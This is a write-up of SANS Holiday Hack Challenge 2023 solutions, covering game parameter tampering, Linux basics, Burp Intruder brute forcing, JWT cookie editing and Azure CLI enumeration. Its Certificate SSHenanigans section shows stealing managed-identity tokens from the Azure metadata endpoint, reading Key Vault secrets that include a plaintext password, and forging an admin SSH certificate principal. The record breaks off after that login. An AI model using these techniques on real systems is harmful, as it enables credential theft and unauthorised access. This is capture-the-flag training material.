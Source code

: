 # S~~ANS~~ Holiday-Hack-Challenge-2023
 
<img width="800" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/d051e195-083b-431e-903d-cc42be8bcb79">  

 | Christmas Island | 
 |     :---:      |
 | [Orientation]( )   |
 | [Frosty's Beach](https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/blob/main/README.md#christmas-island-frostys-beach)      |
 | Santa's Surf Shack      |
 | Rudolph's Rest Resort     |
 | Resort Lobby     |

## Christmas Island: Orientation
### Holiday Hack Orientation
Difficulty: 🎄

Talk to Jingle Ringford on Christmas Island and get your bearings at Geese Islands

<details>
<img width="477" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f446a59b-8aec-4e4f-9a3d-7220f1fc2821">

### Items Gathered
![image](https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/4147c58c-cb62-4135-80d1-ece769d27c12) <b> Fishing Pole - Just a humble rod and reel. Perfect for catching all manner of aquatic life. </b>
</details>

## Christmas Island: Frosty's beach

Hints: Synthesis is the True Ending
From: Santa
The AI revolution has begun. Some of the most prominent and useful tools born from the advent of powerful AI include ChatGPT, PlayHT, Midjourney, Dall-E 3, Bing AI, and Bard, and Grok.

### Snowball Fight
Difficulty: 🎄🎄

Visit Christmas Island and talk to Morcel Nougat about this great new game. Team up with another player and show Morcel how to win against Santa!

<details>
<summary>Solution</summary>
Elves and Santa got you down? Unlock a secret weapon hidden in the game's code: a dwarf named Jared (yes, really) ready to bring the pain!

Here's the cheat code:

Hack the mainframe: Open your dev tools console and flip the 'singlePlayer' switch to 'true'. Think of it as inviting a bearded buddy to your party.
Cue the epic entrance: Prepare for a glorious fanfare as Jared makes his debut, complete with a custom sound effect and toast notification.
Unleash the dwarf power: With Jared on your team, even Santa's belly will jiggle with fear. Those elves won't know what hit them!
Remember: Keep it in the same browser window – no need to open new tabs for this hack.

Get ready to rumble, because this dwarf is about to bring the blizzard!

### Code Analysis:
The code appears to introduce a character (Elf the dwarf, jokingly referred to as Jared) into the game when in single-player mode.First, a sound effect named 'elf_the_dwarf_is_here' is played if audio is enabled. Next, a toast message appears on the screen saying "Elf the dwarf has joined your team!" for a short duration. Finally, a new game sprite named 'jaredSprite' is created at a specific position. All indicating we need the Dwarf.

View the source code of the game 
<img width="739" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/53a6d875-2c45-47e0-bf53-4788b72f4158">

```
 // Check if it's single-player mode
    // jared ... I mean Elf the dwarf joins the fight when in single player mode
       if (singlePlayer === 'true') {
          setTimeout(() => {
            if (isaudio) {
              gameSceneObject.sound.play('elf_the_dwarf_is_here', { volume: 0.5 });
            }
            toastManager.showToast("Elf the dwarf has joined your team!", duration=500, delay=5000);
            jaredSprite = gameSceneObject.physics.add.sprite(starting_pos.x + 150, starting_pos.y, 'jaredSprite');
```
### Working towards Victory: 
We have to change singlePlayer parameter to true and reload game. 
> [!IMPORTANT]
> Do not play this game in a seperate tab or windows of your browser you have to complete this challenge in the same page with the help of developer tools console.

> https://hhc23-snowball.holidayhackchallenge.com/room/?username=<>&roomId=201e0e461&roomType=public&gameType=co-op&id=18fed30a-a96a-47c2-a697-86c6d3a4b0bb&dna=<>&singlePlayer=false

 <img width="1000" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3fed0b55-4771-43a1-9045-076875fe1719">

##### Steps:
1. Open Developer console and change the frame to the game room
   
<img width="241" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/634c5fa8-78d0-4b6b-9a04-d4b4a50280cd">

2. Choose play game with random players and once the game room loads check the current loaded URL "window.location.href"
   
3. Use the below javascript which changes the "SinglePlayer" parameter to true and loads the frame again.
  
4. Now you have Dwarf the elf on your team. Playing the game is made easier.

````
// Get the current URL
var url = new URL(window.location.href);

// Update the 'singlePlayer' parameter to 'true'
url.searchParams.set('singlePlayer', 'true');

// Reload the frame with the modified URL
window.location.href = url.href;
````
</details>

## Christmas Island: Frosty's beach

### Linux 101
Difficulty: 🎄🎄
Visit Ginger Breddie in Santa's Shack on Christmas Island to help him with some basic Linux tasks. It's in the southwest corner of Frosty's Beach.

Dust off your Linux beard and let's work on the festive tasks frenzy! 

<details>
<summary>Solution</summary>
 
````
Perform a directory listing of your home directory to find a troll and retrieve a present!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ ls
HELP  troll_19315479765589239  workshop
````
````
Now find the troll inside the troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cat troll_19315479765589239 
troll_24187022596776786
````
````
Great, now remove the troll in your home directory.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ rm troll_19315479765589239
````
````
Print the present working directory using a command.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ pwd
/home/elf
````
````
Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .profile  .troll_5074624024543078  HELP  workshop
````
````
Now find troll in your command history
_________________________________________________________________________________________________
elf@5338c71bd631:~$ history
````
````
Find the troll in your environment variables.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ env
````
````
Next, head into the workshop.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cd workshop/
````
````
A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ grep -i "troll" ~/workshop/*
grep: /home/elf/workshop/electrical: Is a directory
/home/elf/workshop/toolbox_191.txt:tRoLl.4056180441832623
````
````
A troll is blocking the present_engine from starting. Run the present_engine binary to retrieve this troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r--r--r-- 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ chmod +x present_engine 
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r-xr-xr-x 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ ./present_engine 
troll.898906189498077
````
````
Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ cd electrical
elf@5338c71bd631:~/workshop/electrical$ ls
blown_fuse0
elf@5338c71bd631:~/workshop/electrical$ mv blown_fuse0 fuse0
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0
````
````
Now, make a symbolic link (symlink) named fuse1 that points to fuse0
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ ln -s fuse0 fuse1
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1
````
````
Make a copy of fuse1 named fuse2.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ cp fuse1 fuse2
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1  fuse2
````
````
We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2.
_________________________________________________________________________________________________
[elf@5338c71bd631:~/workshop/electrical$ nano fuse2
````
````
Find the troll somewhere in /opt/troll_den.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den/ -iname '*troll*'
````
````
Find the file somewhere in /opt/troll_den that is owned by the user troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den -type f -user troll
````
````
Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.
_________________________________________________________________________________________________
find /opt/troll_den  -size +108k -size -110k
````
````
List the process running
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
init           1  0.0  0.0  20112 16296 pts/0    Ss+  05:39   0:00 /usr/bin/python3 /usr/local/bin/tmuxp load ./mysession.yaml
elf        14636  0.1  0.1  31520 26736 pts/2    S+   06:04   0:00 /usr/bin/python3 /14516_troll
elf        15593  0.0  0.0   7672  3236 pts/3    R+   06:05   0:00 ps aux
````

````
The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ netstat -tuln
````
````
The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ curl 0.0.0.0:54321
````
````
Your final task is to stop the 14516_troll process to collect the remaining presents.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ kill 14636
````
${\color{pink}Congratulations, you caught all the trolls and retrieved all the presents!
Type "exit" to close...}$

</details>

## Christmas Island: Rudolph's Resort
### Reportinator
Difficulty: 🎄🎄

How well do you know your pentest reports?

<details>
<summary>Solution</summary>
Noel Boetie used ChatNPT to write a pentest report. Go to Christmas Island and help him clean it up.
Reportinator

Ho ho ho! This report's got vulnerabilities listed like Santa's Naughty & Nice. Reading through is always good, but wouldn't a clever trick be nice? There's another way to solve this puzzle, so sharpen your coding elf ears and listen up!

### Technique
There is a POST request with payload data for the 9 questions asked where 1 indicates false and 0 indicates true. With the help of Burpsuite we will first intercept the request and then pass it over to Intruder which would help with all the probable combinations for the correct answer.

#### Steps
1. Load the reportinator webpage and click on submit review directly. You will observe a POST request sent to https://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com/check as below

   <img width="359" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/9b70534a-2edc-4f71-af70-a0d7e33613fa">

2. Add payload marker to the value of the parameter input as below. Choose Clusterbomb attack [Check all permutation of payload combination] now fill all the 9 payload set with our combination of 0 and 1.

   <img width="506" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/022888ba-fe19-4c1c-b5bd-8cab0e0021fb">

3. Lauch the attack and observe one of the response will have 200 response status code.

   <img width="547" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3f5e3ac8-7754-4867-afea-b4734deda8eb">

4. Now work the combination on the report and get the task completed.

</details>

Noel Boetie says "Great job on completing that challenge! Ever thought about how your newfound skills might come into play later on? Keep that mind sharp, and remember, today's victories are tomorrow's strategies!"

It truly does help you later 🤯

### Azure 101
Difficulty: 🎄🎄

Help Sparkle Redberry with some Azure command line skills. Find the elf and the terminal on Christmas Island.

> [!TIP]
> Azure CLI Reference
> 
> From: Sparkle Redberry
> 
> Terminal: Azure 101
> 
> The Azure CLI tools come with a builtin help system, but Microsoft also provides this handy [cheatsheet](https://learn.microsoft.com/en-us/cli/azure/reference-index?view=azure-cli-latest.

Before you get too comfy, why not give your Azure CLI skills a festive brush-up? 

<details>
<summary>Solution</summary>

````
 You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less
````
````
Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account -h list
The client 'f17559a4-d8a2-4661-ba0f-c04f8cf2926d' with object id '8deacb33-214d-4d94-9ab4-d27768410f17' does not have authorization to perform action 'Microsoft.Compute/virtualMachines/read' over scope '/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64' or the scope is invalid. If access was recently granted, please refresh your credentials.
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account alias show
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az group list
[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1",
    "location": "eastus",
    "managedBy": null,
    "name": "northpole-rg1",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  },
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2",
    "location": "westus",
    "managedBy": null,
    "name": "northpole-rg2",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  }
]
````
````
Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   ** "defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
    "inProgressOperationId": null,
    "isDefaultContainer": null,
    "isXenon": false,
    "keyVaultReferenceIdentity": "SystemAssigned",
    "kind": "functionapp,linux",
    "lastModifiedTimeUtc": "2023-11-09T14:43:01.183333",
    "location": "East US",
    "maxNumberOfWorkers": null,
    "name": "northpole-ssh-certs-fa",
    "outboundIpAddresses": "",
    "possibleOutboundIpAddresses": "",
    "publicNetworkAccess": null,
    "redundancyMode": "None",
   ** "repositorySiteName": "northpole-ssh-certs-fa",**
    "reserved": true,
    "resourceGroup": "northpole-rg1",
    "scmSiteAlsoStopped": false,
    "siteConfig": {
      "acrUseManagedIdentityCreds": false,
      "acrUserManagedIdentityId": null,
      "alwaysOn": false,
      "antivirusScanEnabled": null,
      "apiDefinition": null,
      "apiManagementConfig": null,
      "appCommandLine": null,
      "appSettings": null,
      .
      .
      .
      .
      .
      .
      },
    "slotSwapStatus": null,
    "state": "Running",
    "storageAccountRequired": false,
    "suspendedTill": null,
    "tags": {
      **"create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl",**
      "project": "northpole-ssh-certs"
    },
    "targetSwapSlot": null,
    "trafficManagerHostNames": null,
    "type": "Microsoft.Web/sites",
    "usageState": "Normal",
    "virtualNetworkSubnetId": null,
    "vnetContentShareEnabled": false,
    "vnetImagePullEnabled": false,
    "vnetRouteAllEnabled": false
  }
]
````
````
Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm list -g northpole-rg2 | less

[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2/providers/Microsoft.Compute/virtualMachines/NP-VM1",
    "location": "eastus",
    "name": "NP-VM1",
    "properties": {
      "hardwareProfile": {
        "vmSize": "Standard_D2s_v3"
      },
      "provisioningState": "Succeeded",
      "storageProfile": {
        "imageReference": {
          "offer": "UbuntuServer",
          "publisher": "Canonical",
          "sku": "16.04-LTS",
          "version": "latest"
        },
        "osDisk": {
          "caching": "ReadWrite",
          "createOption": "FromImage",
          "managedDisk": {
            "storageAccountType": "Standard_LRS"
          },
          "name": "VM1_OsDisk_1"
        }
      },
      "vmId": "e5f16214-18be-4a31-9ebb-2be3a55cfcf7"
    },
    "resourceGroup": "northpole-rg2",
````
````
Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts 'ls'
{
  "value": [
    {
      "code": "ComponentStatus/StdOut/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "bin\netc\nhome\njinglebells\nlib\nlib64\nusr\n",
      "time": 1705438837
    },
    {
      "code": "ComponentStatus/StdErr/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "",
      "time": 1705438837
    }
  ]
}
````
${\color{green}Great,you did it all!}$
</details>

## Christmas Island: Resort Lobby
> [!TIP]
> Remember: Pepper Minstix "After you complete all the challenges, come back here for a surprise!"

## Pixel Island: 

### Elf Hunt
Difficulty: 🎄🎄🎄

Piney Sappington needs a lesson in JSON web tokens. Hack Elf Hunt and score 75 points.

> [!TIP]
> JWT Secrets Revealed
> 
> From: Piney Sappington
> 
> Terminal: Elf Hunt
> 
> Unlock the mysteries of JWTs with insights from PortSwigger's JWT Guide.

<details>
<summary>Solution</summary>

JWT Decode and hack! Shortcut or deep dive? Both paths welcome, single-tab battleground, awaits!

## Intended Way
1. Lauch developer console and naviagate to Apllication tab which reveals a cookie for doamin https://elfhunt.org named "ElfHunt_JWT" 
2. Copy the JWT Cookie and navigate to https://token.dev/ when decoded reveals "speed: -500". modify the speddy to -50 and copy the modified JWT token.

### Before Modifying
<img width="668" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f218cdac-14bb-4726-8635-978aa3adf9f3">

### After modifying
<img width="656" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/c71f2210-c789-46e8-b80b-60e9b6c103b4">

3. Go to developer console --> Application --> Cookies --> https://elfhunt.org.
4. Right click edit value and paste the new token.
5. Since all of this have to be done within the same tab. After modifying the token Go to developer console --> select elfhung.org and then type window.location.reload(); which will reload the iframe where hte game is loaded.

<img width="501" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e210d1c5-e58d-4223-949e-685145377944">

6. Now observe the elves are moving very slow which makes it easy to shoot and score above 75.
7. Upon wining the challenge we get a note which belongs to Alabaster Snowball 
   
   <img width="339" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/81cf67de-301f-4db7-b3ee-d308474ab458">

## Alternative Way

On the source code of the elf challenge we can see that there is a variable called score. If the score is 75 or higher, it updates the sessionJWT and stores it in a cookie. It pauses the game scene. So let's set the score as 80 and we win the game.

<img width="834" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3537280c-5134-4f16-b28c-049f4121b315">


</details>

### Certificate SSHenanigans
Difficulty: 🎄🎄🎄🎄🎄

Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and Azure [Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) . What type of cookie cache is Alabaster planning to implement?

Certifiably Secure & Slightly Shell-arious. A Whimsical Intro to Secure Shell Certificates
Speaker(s): Thomas Bouve
A practical introduction to secure shell certificates and how to upgrade your existing SSH server configuration.
[Click here to watch this talk!](https://www.youtube.com/watch?v=4S0Rniyidt4)

<details>
<summary>Solution</summary>

The tasks gives an idea on how to use SSH certificate to authenticate to a remote server.

Alabaster introduces his gleaming Azure server at ssh-server-vm.santaworkshopgeeseislands.org. Inspired by ChatNPT's ingenious suggestion to upgrade using SSH certificates, Alabaster is eager to share the magic. 

${\color{green}"Generate a certificate," he suggests, "use the monitor account to access the host, and let me know if my TODO list is within reach."}$
 
1. Let's create a SSH certificate from the machine which would use to access the server.
   
   <img width="441" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f4ed0c57-b6c0-498a-9f84-c87a1812dead">


2. Now copy the public key contents and paste it in https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl. The certificate will be signed and response would have the signed pub key.

<img width="687" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e6ebc809-4564-4ca3-a6e7-e08a3ad4e852">


3. Copy only the necessary portion of the certificate highlighted in blue and now update your exisiting certificate using the new signed pub key.

<img width="950" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/0698166a-fa23-4564-9de6-593bdb47262a">

4. Now SSH to the remote server with the private key using the monitor account.

````
   ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni monitor@ssh-server-vm.santaworkshopgeeseislands.org 
monitor@ssh-server-vm:~$ whoami
monitor
````
5. The below hint shows that we have to gather information using the Azure Web/Function App deployed in the server hence let's start with that.

> [!TIP]
> Azure Function App Source Code
> From: Alabaster Snowball
> Objective: Certificate SSHenanigans
> The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

6. One  of our previous Task "Azure 101" we found a function app so that could be a good start. 

````
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   **"defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
````

7. Since AZI CLI is not in the host we use CURL and it retured me an error that the authorization header is missing.
  The header should look like: "Authorization: Bearer <your-access-token>"

````    
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   115  100   115    0     0    603      0 --:--:-- --:--:-- --:--:--   602
{
  "error": {
    "code": "AuthenticationFailed",
    "message": "Authentication failed. The 'Authorization' header is missing."
  }
}
````

Reference: 
https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token#get-a-token-using-curl

````
monitor@ssh-server-vm:/home$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq
{
  "access_token": "eyJ0eXAiOiJKV1Q******************cig",
  "client_id": "b84e06d3-aba1-4bcc-9626-2e0d76cba2ce",
  "expires_in": "84827",
  "expires_on": "1705609969",
  "ext_expires_in": "86399",
  "not_before": "1705523269",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer"
}
````
8. For ease the token has been assigned to a variable az_token and the curl request was sent again, we see a github repo url over there.

````
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" \
-H "Authorization: Bearer $az_token" | jq
 ````

9. After reading throught the python file the Key vault got me curious and let's find the vault URL probably that's were the TODO List lies. We have the Vault URL by running below command

Reveals Vault URL
````
monitor@ssh-server-vm:/usr$ curl -H "Authorization: Bearer $az_token" -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2019-09-01" | jq
````
Generate a token for vault.azure.net to access content in Vault URL
````
monitor@ssh-server-vm:~$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq
````
Reveals Secret path
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets?api-version=2016-10-01" | jq
````
Reveals secrets in the Vault 
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=2016-10-01" | jq
````

Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru

************ The END this lead me no where for now ***************************************************************

Let's relook again what to do to get the TODO List 🤨

10. I had a look at the function app python code and got curious about "principal". The video of Thomas Bouve gives information about principals and that got me to verify that alabaster has pricipal as admin and monitor has prinicipal as elf. So we have to create a SSH certificate with principal as elf.  

````
monitor@ssh-server-vm:/etc/ssh/auth_principals$ ls
alabaster  monitor
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster 
admin
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat monitor
elf
````
11. Revisiting the [portal](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) and looked at the response which had a parameter "principal". How about we try the "principal" as admin in the request and see if the response shows the principal as admin.

<img width="740" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/35022dca-21be-4430-83de-90ba915a695f">

Sure, it did now we have a SSH certificate with admin principal so we can SSH as alabaster into the host ssh-server-vm.santaworkshopgeeseislands.org.

12. Modify the exisiting public key with the newly generated public key and SSH into the server as alabaster. List the content in home directory and finally we have the TODO List.

````
 ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ 
````
````
┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ ls
alabaster_todo.md  impacket
alabaster@ssh-server-vm:~$ cat alabaster_todo.md 
